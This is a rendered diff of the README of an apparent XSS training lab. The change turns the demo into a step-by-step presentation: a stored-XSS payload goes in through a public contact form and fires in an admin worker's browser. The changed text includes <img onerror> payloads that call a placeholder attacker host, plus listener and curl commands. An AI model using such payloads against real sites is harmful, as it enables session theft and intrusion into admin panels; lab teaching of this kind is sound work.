

Before and after one commit to hipoloco/xsslab, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Refine presentation walkthrough and network placeholders

````diff
--- a/README.md
+++ b/README.md
@@ -173,11 +182,42 @@ It listens on:
 0.0.0.0:9000
 ```
 
-## Short Presentation Flow
+## Step-by-Step Presentation Flow
 
-If you want a quick first demo before showing cookie theft or HTML exfiltration, use a plain Python HTTP server on the attacker machine.
+This section describes the presentation flow in the same order you can use live during the demo.
 
-Start it with:
+### Step 1: show the public application
+
+Open:
+
+```text
+http://cross.fit
+```
+
+Explain that:
+
+- the user-facing entrypoint is the public site
+- the contact form stores the submitted message
+- the page source contains a small operational hint that messages are reviewed from `backend.cross.fit`
+
+### Step 2: confirm backend isolation
+
+From the attacker machine, try:
+
+```bash
+curl -i -H "Host: backend.cross.fit" http://container_machine_ip/
+```
+
+Expected:
+
+- the attacker does not get the internal panel
+- the connection closes or returns a non-success response
+
+This establishes that direct access to `backend.cross.fit` is not available from the attacker side.
+
+### Step 3: start a simple HTTP listener on the attacker side
+
+Run this on the attacker machine:
 
 ```bash
 python3 -m http.server 8000
@@ -188,15 +228,50 @@ Expected:
 - the terminal prints a log line for every HTTP request received
 - no extra code is needed on the attacker side
 
-Suggested opening narrative:
+### Step 4: submit a probe payload through the public form
 
-1. Show that the public landing includes a hint that messages are reviewed in `backend.cross.fit`.
-2. Start `python3 -m http.server 8000` on the attacker machine.
-3. Submit a contact message with a minimal XSS payload that makes a request to that HTTP server.
-4. Wait for the worker to process the message.
-5. Show the request appearing in the Python server log.
+Use a payload that only makes a request to the attacker-controlled HTTP server:
 
-This confirms that the JavaScript executed in the privileged browser session tied to `backend.cross.fit`.
+```html
+<img src=x onerror="new Image().src='http://attacker_machine_ip:8000/ping'">
+```
+
+If attacker and lab are on the same host, use:
+
+```html
+<img src=x onerror="new Image().src='http://docker_host_gateway_ip:8000/ping'">
+```
+
+Submit it through the public form on `cross.fit`, or with `curl`.
+
+### Step 5: wait for the worker
+
+The worker logs in as admin to `backend.cross.fit`, opens the next message, renders it, and marks it as processed.
+
+You can watch it with:
+
+```bash
+docker compose logs -f worker
+```
+
+### Step 6: show the incoming request on the attacker server
+
+Expected on the attacker machine:
+
+```text
+"GET /ping HTTP/1.1" 404 -
+```
+
+The `404` is acceptable. The relevant fact is that the request reached the attacker-controlled server.
+
+### Step 7: explain the conclusion
+
+At this point you can state:
+
+- the attacker never browsed `backend.cross.fit` directly
+- the public form stored attacker-controlled input
+- the privileged browser session attached to `backend.cross.fit` executed the payload
+- this is enough to confirm that the internal panel is vulnerable to stored XSS
 
 ## Payloads
 
````
Also changed, not shown: other parts of README.md (+26 -14 lines).
